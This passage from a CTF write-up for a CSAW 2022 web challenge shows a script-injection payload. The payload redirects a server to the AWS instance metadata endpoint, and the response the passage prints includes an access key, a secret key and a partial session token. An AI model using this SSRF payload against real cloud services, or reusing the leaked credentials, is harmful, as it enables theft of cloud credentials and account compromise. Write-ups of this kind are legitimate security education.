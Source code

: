 ```javascript
<script> top.location='[http://169.254.169.254/latest/meta-data/iam/security-credentials/AmazonSSMRoleForInstancesQuickSetup](http://169.254.169.254/latest/meta-data/)' </script>
```
![pdf](https://github.com/anas-cherni/CTF-writeups/blob/main/CSAW%20quals%202k2022%20-%20full%20web/My%20Little%20Website/ssrfAWS.png?raw=true)

Seems unintended, cuz with the right role / permission, we can cause a serious damage and go beyond getting a simple flag.
> [http://169.254.169.254/latest/meta-data/iam/security-credentials/AmazonSSMRoleForInstancesQuickSetup](http://169.254.169.254/latest/meta-data/iam/security-credentials/AmazonSSMRoleForInstancesQuickSetup?fbclid=IwAR2443rlWP2CjKGlkznRDgnPxigxvi3EubklQlP7Kt3LU262OW1tcOLKHf0)
```javascript
{
"Code" : "Success",
"LastUpdated" : "2022-09-09T17:30:49Z",
"Type" : "AWS-HMAC",
"AccessKeyId" : "ASIAXOT35QYLSAMKCIPN",
"SecretAccessKey" : "LYjUPfpAZ4G+Lw5mQWcTpCvaUTSGAcyatfcLsm2u",
"Token" :
"IQoJb3JpZ2luX2VjELL//////////wEaCXVzLXdlc3QtMiJGMEQCIB3PI9WG6S1VTyQYyd43HkwNtoRzVg+UlB5HboU7CLpUAiASizIAZ
vPFf/qGB0PTbajDaFkQ6yLdMvN6dHlelmWKuyrMBAhLEAAaDDUxMjQzNDczNDYxNSIMTTqcjAUM+9uQb65pKqkE17539UplDbJkH1sSKHE
r5L+rHf3Xm1Qk/87rO9wF5zDEhw/L8YDPqYMGq0erhx/Q/5jXApf0Y5Lx5uTLIHUWoyRA4hdfUDk53RpWKFhh++9Ev/iAbqWhhcldFtEhh
g3S2j00l8oBtLfeGzyjEZWp+m0U0uRDmte9sL09RttOgifuYnq5YXQzveiK+RsQpk/qwNtRnvVNeGuHA+93jhJBtzQw+hhtf6z0iOTaaBy
tDmY2UnQbDC8N+kwBwfNTbem8xbriBZuodOM9nL5kN2ujaiwsRFJRrVD+lUc98cCGfTDZdFll0R9HzmR8bBFCegHmc67Nm49TMckRr6IWs
NmFynP9P9r72VArmxmJ3pc2CeX66qYz4Vce5ahmWYiF0DpM9c7H3UH9tQt/NRQgSTdZ1BrOYGZVkHsUU04TFUz/xMakajQwALtRxKiYUMY
e0DXf2nWMNhr+NWOvrNVdajVAko8n8Whhj7WQ2o4OtXjU/v2uEN695EeBpwMujigxOSAz8fdbtuek15boHgNmfqzBKd8bYj5WS/nCDTBt0
3TTjpVrhAtzIIuHOf0Yo7iHAiYKdcGLHq2DXADRH08F4fRMFJuvC2w1xpkBhIo9sUNAEpDpWuMDcSG0NMrSDyQg4IKgX8848o1GzqRrP8S
53IBZ/XUFXkfFe+n43j0dP6x8LqMUXTxen2/iM69BJ/NezQ+EdfEQFSK/FFeZRM2JJSQ/hhnmDpytOkufrjC/8O2YBjqqAVvYyfsnTbDzB
```